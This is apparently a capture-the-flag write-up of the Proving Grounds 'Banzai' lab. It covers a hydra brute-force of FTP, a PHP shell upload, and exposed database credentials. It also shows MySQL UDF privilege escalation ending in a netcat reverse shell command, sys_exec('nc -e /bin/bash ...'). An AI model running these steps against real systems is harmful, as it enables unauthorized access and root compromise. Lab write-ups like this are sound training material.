 ```yaml
---
title: "Proving grounds Practice: Banzai"
layout: post
date: 2024-01-15 02:00
categories: writeup
---
```


Proving grounds Practice - Banzai CTF writeup.

# NMAP

```text
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
5432/tcp open  postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open  http       Apache httpd 2.4.25
8295/tcp open  http       Apache httpd 2.4.25 ((Debian))
```

## 21/tcp   open  ftp        vsftpd 3.0.3

anonymous login prohibited
user:system - failed

Crack the password using hydra.

```sh
naveenj@hackerspace:|10:55|~/proving_grounds/Banzai$ hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.217.56
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-21 10:57:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://192.168.217.56:21/
[21][ftp] host: 192.168.217.56   login: admin   password: admin
```

## Login to FTP server

- upload php shell and trigger it to get initial foothold.
- Try reverse connection port as 22.

Found Database credentials.php

```text
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
```

## Privilege Escalation

Download exploit

- https://www.exploit-db.com/exploits/1518

Connect to mysql db

```sh
ww-data@banzai:/var/www/html$ mysql -uroot -pEscalateRaftHubris123
mysql -uroot -pEscalateRaftHubris123
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2
Server version: 5.7.30 MySQL Community Server (GPL)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

## Download precompiled lib from metasploit

- https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql

upload through ftp

```sh
mysql> use mysql;	#select db
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);		#create table
create table trenchesofit(line blob);
Query OK, 0 rows affected (0.00 sec)

mysql> insert into foo values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));	#upload exploit lib
insert into trenchesofit values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';	#upload exploit to mysql lib
select * from trenchesofit into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
Query OK, 1 row affected (0.03 sec)

mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';	#use lib
create function sys_exec returns integer soname 'lib_mysqludf_sys_64.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select sys_exec('nc -e /bin/bash 192.168.45.160 22');	#exec command
select sys_exec('nc -e /bin/bash 192.168.45.160 22');
```

![img](/assets/images/CTF/Proving_Grounds/Banzai/root.png)

**Root Obtained**

## Important Takeaway
- The lib file has to be place in /usr/lib/mysql/plugin/lib_mysqludf_sys_64.so folder else the exploit won't work.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).